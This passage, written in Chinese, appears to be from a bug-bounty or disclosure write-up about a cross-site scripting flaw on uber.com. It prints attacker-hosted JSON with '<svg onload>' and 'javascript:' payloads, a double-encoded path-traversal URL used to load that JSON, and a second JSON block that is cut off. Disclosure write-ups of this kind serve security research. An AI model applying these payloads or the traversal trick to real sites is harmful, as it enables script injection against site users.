 该漏洞是由 API 请求过滤不足而引起，因此，在受控域上，放置了一个包含以下内容的 JSON 文件：  
```
{  
   "id":"9999",
   "title":"XSS on Uber.com",
   "overview":"<svg onload=\"alert('XSS on '+ document.domain)\">",
   "responsibilities":null,
   "qualifications":null,
   "lastUpdated":"2016-01-16 06:29 AM",
   "formattedTeam":"xss",
   "team":"xss",
   "subTeam":"xss",
   "formattedLocation":"xss",
   "slugs":{  
      "team":"xss",
      "subTeam":"xss",
      "city":"xss",
      "country":"xss"
   },
   "city":"xss",
   "country":"xss",
   "jobUrl":"javascript:alert('XSS on '+ document.domain)",
   "normalizedTitle":"xss",
   "normalizedContent":"xss"
}
```  
  
然后在 uber.com/cities/%252e%252e%2f%252e%252e%2fen%2f%2fexample.com%2ffile.json/ 上发现了类似的 XSS 向量。  
  
浏览器尝试从以下位置加载 JSON 内容：example.com/file.jsonuber.com/cities/-CONTROLLED-/ ：  
```
{  
   "products":[  
      {  
         "productDisplayType":"uberx",
         "fare":{  
            "safeRideFee":"USD9999.99",
            "perMinute":"USD9999.99",
            "minimum":"USD9999.99",
            "cancellation":"USD9999.99",
            "fareType":"time_plus_distance",
            "base":"USD9999.99",
            "isDistanceUnitMetric":false,
            "perDistanceUnit":"USD9999.99",
            "additionalFees":[  

            ]
         },
         "displayName":"uberX",
         "tagline":"XSS",
         "taxiFareInfo":false,
         "finePrint":[  
            "XSS"
         ]
      },
      {  
         "productDisplayType":"uberxl",
         "fare":{  
            "safeRideFee":"USD9999.99",
            "perMinute":"USD9999.99",
            "minimum":"USD9999.99",
            "cancellation":"USD9999.99",
            "fareType":"time_plus_distance",
            "base":"USD9999.99",
            "isDistanceUnitMetric":false,
```